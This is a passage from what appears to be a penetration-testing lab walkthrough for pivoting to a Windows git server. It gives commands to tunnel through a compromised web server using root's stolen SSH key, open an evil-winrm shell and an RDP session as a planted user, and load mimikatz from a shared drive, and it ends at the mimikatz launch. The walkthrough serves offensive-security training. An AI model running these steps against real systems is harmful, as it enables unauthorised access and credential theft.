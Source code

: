```
Global Group memberships     *None                 
The command completed successfully.
```
On the attacking system install evil-winrm
```
sudo gem install evil-winrm
```
On the attacking system setup a sshuttle connection to the web server to tunnel your traffic to the git server, use your available access to grab the private key for root
```
sudo sshuttle -r root@10.200.98.200 --ssh-cmd "ssh -i id_rsa" 10.200.98.150/32
```
Use evil-winrm to connect to the remote management group
```
evil-winrm -u user-[username] -p [password] -i 10.200.98.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user-[username]\Documents> whoami
git-serv\user-[username]
*Evil-WinRM* PS C:\Users\user-[username]\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Remote Management Users                               Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                                          Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
*Evil-WinRM* PS C:\Users\user-[username]\Documents>
```
Use xfreerdp as another way of accessing the system with the user you created above
```
xfreerdp /v:10.200.98.150 /u:user-[username] /p:[password] +clipboard /dynamic-resolution /drive:/usr/
share/windows-resources,share-[username]           
```
Once connected, open an administrative command prompt and load mimikatz from the share you established above
```
\\tsclient\share-[username]\mimikatz\x64\mimikatz.exe
```